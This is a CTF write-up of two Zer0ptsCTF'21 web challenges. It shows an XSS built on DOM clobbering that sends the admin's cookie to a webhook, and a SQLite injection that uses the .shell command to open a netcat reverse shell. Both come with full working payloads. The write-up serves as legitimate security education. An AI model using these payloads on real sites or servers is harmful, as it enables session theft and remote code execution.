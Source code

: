 ```yaml
---
layout: post
title: Zer0ptsCTF - Web Exploitation
excerpt: "
Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. "
categories: [writeups, Zer0ptsCTF'21]
tags: [web]
---
```


Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. 

#### Simple Blog
```
Now I am developing a blog service. I'm aware that there is a simple XSS. However, I introduced strong security mechanisms, named Content Security Policy and Trusted Types. So you cannot abuse the vulnerability in any modern browsers, including Firefox, right?
```

This challenge gives us a really obvious HTML injection marker and we have to find some way to convert that to full XSS. As it is PHP wtih no filtering, we see that the following will let us insert any HTML by simply closing out the tag. i.e `"><h1>test</h1>`.
```php
<link  rel="stylesheet" href="/css/bootstrap-<?= $theme ?>.min.css">
<link  rel="stylesheet" href="/css/style.css">
```

The much more interesting function and what we have to bypass is the CSP which is given and a trusted types from the init function which is implemented through a polyfill. The CSP is implemented and trusted types are implemented via the following HTML.`
```html
<meta  http-equiv="Content-Security-Policy"  content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-<?= $nonce ?>' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
<script src="/js/trustedtypes.build.js" nonce="<?= $nonce ?>" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
```

The code which actually implements trustedTypes is the following.
```javascript
    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
```

To quickly summarize trusted types, it restricts certain actions on the DOM. In this case, when some HTML is created, it replaces `<>` and when a new script is created the src url is passed through the `createScriptURL` function.

Now let's think about how we can bypass this. Our goal should be to be able to create a script with a src to the JSONP endpoint and be able to control the actual response. The first problem we face is trusted types. No matter what we do, be it HTML injection or manipulating the javascript, we will not be able to call the JSONP endpoint with `?callback=ourpayload` because of trusted types. How can we bypass this? The important note here is that the admin is running Firefox. As of writing this blog, Firefox has not implemented trusted types by default, hence the need for the polyfill. What this also means is that the trustedTypes object referenced by the javascript is not a native call.

The first idea that came to mind was if we can abuse the fact that it is in a try catch. If we could somehow make it fail and not raise an error, we would be able to create script tags with the `?callback` parameter. In order to do this, we can use DOM clobbering. If the following HTML is injected into the page, trustedTypes will look at the HTML element and not the trustedTypes from the javascript.

`<form id=trustedTypes></form>`

However, this is not enough because the catch will still raise an Error and we still won't be able to call the JSONP endpoint. However, if we can make `!trustedTypes.defaultPolicy` to be true then the Error will not be raised. This means we can simply make our DOM clobber to be the following and we will effectively disable trusted types in Firefox.

`<form id=trustedTypes><output id=defaultPolicy>`

Finally, we can DOM clobber callback and that will be passed to `jsonp('/api.php', window.callback);` which will let us create a script element with `?callback=ourpayload`. In order to do this 1 level clobber, I used the following format which will get rid of the automatic `https://` appended to the payload.

`<a id=callback href=a:alert(1);>`

This is where another really neat trick comes in. The PHP code limits our callback payload to 20 characters and it is not nearly enough to execute the javascript needed to exfil the flag. The following is from the official writeup [here](https://hackmd.io/@st98/S1z9qV1X_) and allows executing payloads longer than 20 characters. What we can do is instead of putting our payload in the callback, we create a script tag using the `data:` uri using the `jsonp()` function.

The payload passed to the callback parameter would look like this.
`<a href="a:jsonp(x)" id="callback"></a>`

And using our HTML injection, we can add another element like this.
`<a href="data:text/plain;base64,(Base64 encoded script)" id="x"></a>`

Our final URL sent to the admin looks like the following.
```
http://web.ctf.zer0pts.com:8003/?theme="><a id=callback href=a:jsonp(x)><form id=trustedTypes><output id=defaultPolicy><a href="data:text/plain;base64,(b64payload)" id="x"></a>
```

The content of the payload would be the following base64 encoded and we would get the cookie to our webhook.
```
document.location='https://webhook.site/your_id?'+document.cookie
```

Overall this was a very neat challenge in bypassing trusted types with DOM clobbering. The use of data decoding base64 inline is a cool idea and something to keep in mind for bypassing WAFs in the future.

#### Baby SQLi
```
Just login as admin.
```

This challenge was based around sql injection but in a very interesting and different manner. The core functionality was just a login page with a sqlite database backend. The most important code segments are the following.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result

def sqlite3_escape(s):
    return re.sub(r'([^_\.\sa-zA-Z0-9])', r'\\\1', s)

def auth():
    # snip
    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    # snip
```

Summarizing the code, our username is passed to `sqlite3_escape`, formatted into a query, and sent to `sqlite3_query`. One thing to note here is that the escaping function adds a `\` infront of the block listed characters.  In addition, the way the query is ran is not through a sqlite3 library but rather with a Process.

Let's break this down one at a time. First, how are we even able to inject SQL? After a bit of googling, we found that sqlite escapes characters via double quotations, i.e `"a escaped "" wow"`. This will properly escape the quotation mark. However, as we looked at earlier the `sqlite3_escape` method adds backslashes. 

With this in mind, we are now able to craft queries like the following.

`SELECT * FROM users WHERE username="alice\"" AND password="asdf"`

This doesn't properly escape the quotation mark, rather it just throws an error. Now we can inject a semicolon and exit the statement! If our payload is `";`, our query now becomes the following.

`SELECT * FROM users WHERE username="alice\";" AND password="asdf"`

To make this exploitable, we used some attributes from the allow list. Two interesting things is that all whitespace (spaces, tabs, newlines) are allowed and periods (.) are allowed. We know that sqlite has special commands for statements that start with periods so we can think about how to exploit this.

What we ended up doing was adding a newline, calling the .shell function with arguments we wanted, and adding a final newline to get rid of the junk. This works because a newline is interpreted as a new command to the process. Although individual lines may error, the process is still running and thus our commands would still go through.

Our final payload was the following and has some tricks to make it smaller to reach the character limit where xxx.xx is your domain.

`";\n.shell nc xxx.xx 8 -e sh\n`

There are some things to address about our payload. First, why are we able to include a `-e` when it would become `\-e` and not work? This was discovered during testing by a teammate but we found that the `.shell` command actually expands the backslashes. This means it will actually become  `-e` when the command is executed.

Second, there are some optimizations to the nc reverse shell. The two main things were using a small port (8) and using `sh` instead of `/bin/sh`. Port 8 works but the listener must be run with sudo due to it not being a typically used port. The optimization to use `sh` came from local testing. I cannot say how important local testing is! If you are given the docker environment, like many of the zer0pts challenges were, always run the docker and try stuff out locally. You never know what you may find.

With this final payload, we are able to get a shell on the system and cat index.html for the flag. The description was a bit misleading as we needed RCE not just a typical sql injection but a very interesting challenge overall.
